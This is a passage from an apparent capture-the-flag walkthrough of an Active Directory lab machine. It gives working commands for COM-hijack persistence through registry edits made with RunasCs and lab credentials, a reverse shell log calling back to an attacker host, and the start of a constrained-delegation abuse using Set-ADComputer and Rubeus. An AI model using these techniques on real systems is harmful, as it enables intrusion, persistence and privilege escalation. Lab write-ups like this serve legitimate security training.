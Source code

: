 
Something I learned as well, different payloads are built differently (to no one's surprise). But some such differences that are meaningful include the way the shell is spawned. In the case of shell/reverse_tcp (as opposed to shell/meterpreter/reverse_tcp), a child is forked and then orphaned. So when the shell is spawned, it won't die as soon as explorer.exe is killed as is the case in this exercise.

It's worth noting here, that the access to the registry is only for IT. 

Using ee.reed and RunasCs, we can pass our key edits with our reverse shell binary to be triggered when explorer.exe is opened.

```sh
./RunasCs.exe ee.reed 'Password1234!' 'reg add "HKCR\CLSID\{23170F69-40C1-278A-1000-000100020000}\InprocServer32" /ve /t REG_SZ /d "C:\Windows\Temp\7zip.dll" /f'
./RunasCs.exe ee.reed 'Password1234!' 'reg add "HKLM\SOFTWARE\Classes\CLSID\{23170F69-40C1-278A-1000-000100020000}\InprocServer32" /ve /t REG_SZ /d "C:\Windows\Temp\7zip.dll" /f'
```

And after waiting a minute, we'll eventually get a shell

> Note: I found that once I used a port to reverse shell back, that port was burned. I needed to generate a new payload to phone back to a new port each time.

```sh
[*] Started reverse TCP handler on 10.10.14.81:9999 
[*] Sending stage (336 bytes) to 10.129.26.114
[*] Command shell session 1 opened (10.10.14.81:9999 -> 10.129.26.114:54854) at 2025-07-06 23:45:36 -0700


Shell Banner:
Microsoft Windows [Version 10.0.17763.7434]
-----
          

C:\Windows>whoami
whoami
rustykey\mm.turner
```

With mm.turner's credentials, in our new reverse shell, we're going to load up PowerView.ps1 and ActiveDirectory modules for good measure. From here we're going to update the principal delegate, create the delegation ticket, then use the delegated ticket to impersonate backupadmin
```sh
# Add the ability to delegate to it-computer3
PS C:\Windows> Set-ADComputer -Identity DC -PrincipalsAllowedToDelegateToAccount it-computer3$

# Generate the hash we'll need to create tickets as it-computer3
PS C:\Windows> C:\Windows\Temp\Rubeus.exe hash /password:Rusty88!

   ______        _                      
  (_____ \      | |                     
   _____) )_   _| |__  _____ _   _  ___ 
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.2.3 


[*] Action: Calculate Password Hash(es)

[*] Input password             : Rusty88!
[*]       rc4_hmac             : B52B582F02F8C0CD6320CD5EAB36D9C6

[!] /user:X and /domain:Y need to be supplied to calculate AES and DES hash types!

```